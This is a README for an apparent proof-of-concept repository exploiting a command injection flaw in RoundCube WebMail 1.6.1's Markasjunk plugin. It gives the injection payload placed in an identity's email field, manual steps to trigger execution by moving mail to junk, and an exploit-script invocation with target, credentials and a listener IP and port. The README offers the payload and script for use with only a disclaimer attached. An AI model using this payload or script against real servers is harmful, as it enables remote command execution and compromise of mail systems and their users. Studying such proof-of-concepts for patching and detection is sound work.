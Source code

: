 # RoundCube WebMail 1.6.1 - Markasjunk Vulnerability PoC

## Overview

This repository contains a Proof of Concept (PoC) for the `Markasjunk` plugin vulnerability in RoundCube WebMail version 1.6.1 (Used version for test). The vulnerability allows an attacker to execute arbitrary commands due to improper filtering of user inputs.

## Prerequisites

- Access as User (got credentials!)

## Manual Proof of Concept

1. Log in to the RoundCube WebMail interface.
2. Navigate to `Settings -> Identities`.
3. Modify the email address to include the payload:
    ```
    pwn&touch${IFS}test.txt&@pwn.com
    ```
4. Move any email to the "junk folder".
5. Verify that the command has been executed by checking for the presence of `test.txt` in the server's file system.
   [Reference](https://cyberthint.io/roundcube-markasjunk-command-injection-vulnerability/)

## Exploit use example

This PoC is for educational purposes only. Use it at your own risk. The author is not responsible for any damage caused by the misuse of this information.
```
./exploit vulnerablehost.com pwned@user.pwn PwnPassword! 127.0.0.1 1337
```

![PoC](https://github.com/s4orii/PoC-RoundCube-1.6.1-Plugin-RCE/blob/cb7bd7982d7e0a30b5cabee016c3aa05c378ea3f/PoC.gif)


## PoC Evidence
